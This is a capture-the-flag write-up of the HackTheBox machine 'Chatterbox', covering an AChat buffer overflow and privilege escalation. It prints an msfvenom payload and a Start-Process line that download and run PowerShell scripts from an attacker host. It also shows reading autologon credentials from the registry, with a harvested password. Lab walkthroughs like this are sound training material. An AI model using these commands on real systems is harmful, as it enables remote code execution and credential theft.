










# Chatterbox -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Chatterbox (HackTheBox)
**Author:** dsec
**Date:** 2025-09-16

---

## TL;DR

### Buffer overflow exploit (AChat) with unicode-encoded payload for initial shell. Registry autologon creds reused for Administrator. Had to run as Administrator (not SYSTEM) to read root.txt.
---
## Target info

- Host: `10.10.10.74`
- Services discovered: `9255/tcp (AChat)`, `9256/tcp (AChat)`
---
## Enumeration





---
## Initial access

Generated unicode-encoded payload for the AChat buffer overflow exploit:

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \IEX(New-Object Net.WebClient).downloadString('http://10.10.14.142/writeup.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Copied output into the 36025.py exploit and ran it:



---
## Privilege escalation

Checked autologon creds in the registry:

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' | Select-Object DefaultUserName, DefaultPassword, AutoAdminLogon
```



Found: `Alfred:Welcome1!`

**Creds didn't work as Alfred, but did work with Administrator** (password reuse):



Access denied on root.txt -- need to be `chatterbox\administrator`, not `nt authority\system`.

From Alfred's shell, created a credential object and spawned a new shell as Administrator:

```powershell
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
```



```powershell
$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)
```



```powershell
Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.142/writeup2.ps1')" -Credential $creds
```





Alternatively, from SYSTEM shell, take ownership of the file:

```
takeown /f "C:\Users\Administrator\Desktop\root.txt"
dir /q "C:\Users\Administrator\Desktop\root.txt"
icacls "C:\Users\Administrator\Desktop\root.txt" /grant SYSTEM:F
```



---
## Lessons & takeaways

- The `-b` switch in msfvenom excludes bad bytes, forcing use of an encoder like `x86/unicode_mixed`
- Always check registry autologon creds and test for password reuse with Administrator
- psexec.py gives SYSTEM, not Administrator -- file ACLs owned by Administrator may require takeown/icacls or spawning a shell as the actual Administrator user
---
